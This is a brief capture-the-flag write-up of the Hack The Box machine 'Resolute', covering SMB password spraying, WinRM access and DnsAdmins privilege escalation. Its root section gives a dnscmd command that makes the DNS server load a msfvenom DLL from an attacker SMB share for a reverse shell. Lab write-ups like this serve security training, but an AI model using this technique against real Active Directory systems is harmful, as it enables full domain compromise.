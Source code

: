 ```yaml
---
title: Resolute HTB Writeup
date: '2020-05-30 19:50:00'
author: fuxsocy
description: Resolute By Fuxsocy
categories: ["htb"]
banner_img: /img/Resolute.png
---
```


## user.txt
Run enum4linux script and find the usernames there, a username has a comment about a password, take all usernames and try against smbshare with that password, the username melanie with the password will work, now use winrm and connect and grab user.txt.

## root.txt

Now I find the user ryan has used as a parameter to cmd.exe and then I login as ryan. After that I see a note saying that dues to change freeze, any system changes will be automatically reverted within 1 minute.

I see the groups and there is a group `DnsAdmins`. I had read this post `https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise` . I create a dll using msfvenom, and then I use impacket-smbserver and then use `dnscmd 10.10.10.169 /config /serverlevelplugindll \\10.0.0.2\gis\dnsprivesc.dll` and then stop and start the dns. And get reverse shell. 
